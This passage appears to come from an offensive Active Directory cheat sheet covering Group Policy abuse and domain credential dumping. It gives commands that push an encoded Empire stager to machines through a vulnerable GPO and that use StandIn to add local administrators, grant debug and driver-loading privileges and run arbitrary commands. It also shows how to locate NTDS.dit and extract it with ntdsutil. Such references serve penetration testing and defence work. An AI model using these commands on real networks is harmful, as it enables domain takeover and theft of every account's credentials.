 ```powershell
# Enumerate GPO
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}

# New-GPOImmediateTask to push an Empire stager out to machines via VulnGPO
New-GPOImmediateTask -TaskName Debugging -GPODisplayName VulnGPO -CommandArguments '-NoP -NonI -W Hidden -Enc AAAAAAA...' -Force
```

### Abuse GPO with StandIn

```powershell
# Add a local administrator
StandIn.exe --gpo --filter Shards --localadmin user002

# Set custom right to a user
StandIn.exe --gpo --filter Shards --setuserrights user002 --grant "SeDebugPrivilege,SeLoadDriverPrivilege"

# Execute a custom command
StandIn.exe --gpo --filter Shards --tasktype computer --taskname Liber --author "REDHOOK\Administrator" --command "C:\I\do\the\thing.exe" --args "with args"
```

## Dumping AD Domain Credentials

You will need the following files to extract the ntds :

- NTDS.dit file
- SYSTEM hive (`C:\Windows\System32\SYSTEM`)

Usually you can find the ntds in two locations : `systemroot\NTDS\ntds.dit` and `systemroot\System32\ntds.dit`.

- `systemroot\NTDS\ntds.dit` stores the database that is in use on a domain controller. It contains the values for the domain and a replica of the values for the forest (the Configuration container data).
- `systemroot\System32\ntds.dit` is the distribution copy of the default directory that is used when you install Active Directory on a server running Windows Server 2003 or later to create a domain controller. Because this file is available, you can run the Active Directory Installation Wizard without having to use the server operating system CD.

However you can change the location to a custom one, you will need to query the registry to get the current location.

```powershell
reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"
```

### Using ndtsutil

```powershell
C:\>ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\pentest
ifm: quit
ntdsutil: quit
```
